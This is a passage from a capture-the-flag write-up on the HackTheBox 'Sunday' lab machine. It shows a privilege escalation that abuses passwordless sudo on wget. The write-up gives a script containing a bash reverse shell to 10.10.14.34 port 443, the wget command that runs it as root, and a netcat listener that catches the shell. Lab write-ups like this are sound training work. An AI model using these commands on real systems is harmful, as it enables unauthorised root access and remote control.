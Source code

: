 
We can run `wget` as root without any credentials. If we check [GTObins](https://gtfobins.github.io/gtfobins/wget/#sudo) we can see that we can abuse this to get root shell as such:

```bash
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.34/443 0>&1' >$TF
sudo wget --use-askpass=$TF 0
```

So I start the local netcat listener on my attack machine with:

```bash
rlwrap nc -lnvp 443
```

And execute the above commands:

![exec-24](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sunday/img/exec-24.png)


We can see the shell stalls, this is a great sign. 


On my listener I receive the connection:

![root-25](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sunday/img/root-25.png)


## Beyond root

If we examine the `/root/troll` we ran eralier we can see the following:

![troll-26](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sunday/img/troll-26.png)

